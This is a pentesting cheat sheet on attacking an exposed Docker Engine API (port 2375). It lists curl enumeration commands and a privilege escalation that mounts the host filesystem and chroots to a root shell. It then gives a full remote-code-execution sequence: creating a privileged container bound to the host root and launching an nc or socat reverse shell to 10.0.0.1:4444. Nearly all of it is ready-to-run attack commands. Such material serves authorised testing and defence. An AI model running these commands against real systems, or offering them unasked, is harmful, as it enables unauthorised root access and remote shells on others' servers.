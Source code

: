 ```yaml
---
title: Docker Engine API Pentesting
description: The Docker Engine API is a RESTfull API accessed by an HTTP client. The default ports are 2375, 2376. The socket file is located at /var/run/docker.sock.
tags:
    - Container
    - Web
refs:
    - https://docs.docker.com/engine/api/v1.24/
    - https://dejandayoff.com/the-danger-of-exposing-docker.sock/
date: 2023-02-25
draft: false
---
```


## Enumeration

```bash
curl <ip>:2375/containers/json
# The specific container
curl <ip>:2375/containers/<id or name>/json
# Logs
curl <ip>:2375/containers/<id or name>/logs?stderr=1&stdout=1
# Inpsect changes
curl <ip>:2375/containers/<id or name>/changes
```

<br />

## Privilege Escalation from Docker Image

We may be able to get a root shell from remote Docker images.

### 1. Check if Docker is Running in Local Machine

In local machine, check if docker is running.

```bash
sudo systemctl status docker
```

If the docker is not running, start it.

```bash
sudo systemctl stop docker
sudo systemctl start docker
```

### 2. List Remote Docker Images

We need to find what images exist in target Docker API.

```bash
docker -H <target-ip>:2375 images
```

### 3. Get a Shell

After getting an image, we can use it to create a new container and run with executing `sh`.

```bash
docker -H <target-ip>:2375 run -v /:/mnt --rm -it <running-image-name> chroot /mnt sh
```

Now we should get a root shell.

<br />

## Remote Code Execution (RCE)

Reference: [https://dejandayoff.com/the-danger-of-exposing-docker.sock/](https://dejandayoff.com/the-danger-of-exposing-docker.sock/)

We might be able to execute remote code by create a new container image using the existing one.

### 1. Check the Image Name

First we need to find the existing container image and the name of it.

```bash
curl <ip>:2375/containers/json
curl <ip>:2375/containers/<id or name>/json
```

### 2. Create/Start a New Container

If we found the container image name, prepare a new container configuration named “image.json”.

```bash
{
  "Image": "sweettoothinc:latest",
  "Cmd": ["/bin/bash"],
  "Binds": ["/:/mnt:rw"]
}
```

Then create a new container using Docker Engine API.

```bash
curl -X POST -H "Content-Type: application/json" -d @image.json <ip>:2375/containers/create
```

We get the new container ID, so copy it.

After that, start the new container.

```bash
curl -X POST <ip>:2375/containers/<new_container_id>/start
```

### 3. Create a New Exec Instance

Next create a exec instance to reverse shell.

- **Ncat**
    
    ```bash
    curl -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["nc", "10.0.0.1", "4444", "-e", "/bin/bash"], "DetachKeys": "ctrl-p,ctrl-q", "Privileged": true, "Tty": true}' <ip>:2375/containers/<new_container_id>/exec
    ```
    
- **Socat**
    
    ```bash
    curl -X POST -H "Content-Type: application/json" --data-binary '{"AttachStdin": true, "AttachStdout": true, "AttachStderr": true, "Cmd": ["socat", "TCP:10.0.0.1:4444", "EXEC:sh"], "DetachKeys": "ctrl-p,ctrl-q", "Privileged": true, "Tty": true}' <ip>:2375/containers/<new_container_id>/exec
    ```
    

We get a exec ID, so copy it.

### 4. Start an Exec Instance & Reverse Shell

Start a listener in local machine.

```bash
nc -lvnp 4444
```

Now start an exec instance and get a shell.

```bash
curl -X POST -H "Content-Type: application/json" --data-binary '{"Detach": false, "Tty": false}' <ip>:2375/exec/<exec_id>/start
```

We should get a shell.

